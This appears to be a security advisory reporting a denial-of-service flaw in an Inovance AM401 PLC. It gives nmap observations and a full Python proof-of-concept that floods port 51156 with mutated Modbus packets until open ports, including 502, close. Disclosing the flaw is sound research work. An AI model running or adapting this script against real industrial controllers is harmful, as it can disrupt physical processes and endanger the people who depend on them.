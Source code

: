 # Summary
There is a denial of service vulnerability in port 51156 of Inovance AM401 PLC.An attacker can send a large number of modbus protocol data packets to cause the PLC to crash.

This "crash" did not cause the device to crash, but closed the originally open port.
# Details
Connectivity test of the device:![image](https://github.com/user-attachments/assets/755948eb-132c-4702-8a8d-3ca016432eb2)

Nmap scans device ports:![image](https://github.com/user-attachments/assets/168bdc1c-7cf9-4082-92be-94032bd260fe)
You can see that port 51156 is open.

Then we run the script:
![image](https://github.com/user-attachments/assets/47569e14-ec7a-4bd9-aa48-4a8e615524bc)

After a while, we scan the port with Nmap and find:
![image](https://github.com/user-attachments/assets/f8bcc779-cc85-4519-ad78-01aa6efbda4b)

Of the **10** ports that were originally open, only **6** are left now, and **mbap port 502** has also been closed.

# PoC
My host ip is `192.168.1.149` and the device's ip is `192.168.1.88`.

```py
import socket

def F1(x):
    return x ^ 0xFF
    pass
def F2(x):
    return x ^ 0xFE
    pass
def F3(x):
    return (x-0x10) & 0xFF
    pass
def F4(x):
    return (x*0x17) & 0xFF
    pass

def Change(data: bytes):
    l = len(data)
    import random
    pos = random.randint(0, l - 1)
    Fs = [F1, F2, F3, F4]
    f = random.randint(0, 3)
    func = Fs[f]
    newX = func(data[pos])

    hex_str = format(newX, '02x')
    data = data[:pos] + bytes.fromhex(hex_str) + data[pos + 1:]

    return data

ori = "00 01 00 00 00 06 01 03 00 00 00 0a"
ori = bytes.fromhex(ori.replace(" ", ""))
queue = []

queue.append(ori)

MAX_LEN = 65536
cur = 0
while True:
    if((cur)%100 == 0):
        print(cur,end=' ')
    for i in range(8):
        top = queue[cur]
        now = Change(top)
        queue.append(now)
        try:
            s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
            s.connect(("192.168.1.88",51156))
            s.send(now)
            s.close()
            import time
            # time.sleep(0.1)
        except:
            print()
            print("\033[91m[+] CRASHED!!!!!!!!!!!!!!!!!!\033[0m")
            
    import time
    cur = (cur + 1) % MAX_LEN
```
# Discoverer
https://github.com/N0zoM1z0

Li Chunan(804242129@qq.com)
